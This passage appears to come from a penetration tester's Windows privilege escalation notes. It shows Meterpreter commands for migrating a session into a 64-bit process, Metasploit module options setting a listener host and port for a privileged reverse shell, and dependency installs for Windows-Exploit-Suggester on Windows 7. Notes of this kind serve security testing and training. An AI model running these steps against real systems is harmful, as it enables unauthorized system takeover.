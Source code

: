 #### Migrating to a 64-bit Process
```Shell
sessions -i 1
getpid
ps
migrate 2796
background
```
Migrate to whichever PID `conhost.exe` is running on (or another x64 process you have rights to)

#### Setting Privilege Escalation Module Options
```Shell
set SESSION 1
set lhost <your ip>
set lport 4443
exploit
```
Use cmd `getuid` to ensure you received a privileged shell

## Windows Desktop Versions

### Windows 7 Case Study
[Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

#### Install Python Dependencies
```Shell
wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
```

```Shell
tar -xf setuptools-2.0.tar.gz
```

```Shell
cd setuptools-2.0/
```

```Shell
python2.7 setup.py install
```

```Shell
wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
```

```Shell
tar -xf xlrd-1.0.0.tar.gz
```

```Shell
cd xlrd-1.0.0/
```

```Shell
python2.7 setup.py install
```
